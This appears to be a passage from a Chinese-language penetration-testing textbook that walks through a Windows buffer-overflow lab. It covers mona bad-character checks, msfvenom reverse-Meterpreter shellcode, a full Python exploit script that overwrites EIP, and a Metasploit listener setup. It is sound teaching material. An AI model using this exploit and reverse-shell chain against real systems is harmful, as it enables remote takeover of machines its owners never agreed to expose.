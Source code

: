 图 10.31：运行 mona 以识别 JMP ESP 地址

如果 mona 的显示消失了，只需在 Immunity Debugger 的相同终端中执行`!mona help`即可将屏幕恢复过来。现在我们已经准备好创建有效载荷。

您可以使用 mona 来识别坏字符。测试人员可以利用任何公开的资料，寻找更多漏洞利用的方式。这个话题本身值得出一本书。

要在 mona 中创建默认的字节数组，可以使用`!mona bytearray`，这将生成两个名为`bytearray.txt`和`bytearray.bin`的文件，其中包含所有的坏字符。

我们将继续使用 `msfvenom` 创建一个 Windows 载荷，将 `'\x00'` 作为一个坏字符，通过在终端中运行以下命令来实现。这将生成一个 shellcode，提供一个反向 Meterpreter shell，连接到攻击者的 IP 地址：

```
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp lhost=<Kali IP> lport=<portnumber> -e x86/shikata_ga_nai -b '\x00' -f python 
```

## 获取 shell

最后，我们进入创建完整漏洞利用的最后阶段——我们只需要添加一个 NOP sled，然后溢出缓冲区并将我们的 shellcode 写入运行易受攻击应用程序服务器的系统。以下代码片段是利用易受攻击的服务器进行攻击的完整 Python 代码：

```
import socket
import struct
s = socket.socket()
s.connect(("<ServerIP>",9999))
buf =  b""
buf += b"<Add the shell code from msfvenom here>
shellcode = buf
nops = b"\x90"*16
leng = 2984
offset = 2003
eip = struct.pack("<I",0x62501203)
payload = [b"TRUN /.:/",b"A"*offset,eip,nops,shellcode,b"C"*(leng - offset - len(eip) - len(nops) - len(shellcode))]
payload = b"".join(payload)
s.send(payload)
s.close() 
```

将最终的 Python 脚本保存为 `exploit.py`，在执行之前，确保你的监听器已在 Metasploit 中启动，可以通过在终端中运行以下命令来检查：

```
use exploit/mutli/handler
set payload windows/meterpreter/reverse_tcp
set lhost <Your kali IP>
set lport 444
exploit -j 
```

一切已准备就绪。攻击者现在将能够使用 Python 编程执行并制作 Windows 特定的漏洞利用。下一步是从终端运行 `exploit.py`：

```
python3 exploit.py 
```

成功的漏洞利用将覆盖缓冲区并写入我们的 shellcode，然后执行它以生成一个反向 shell 到攻击者，如 *图 10.32* 所示：
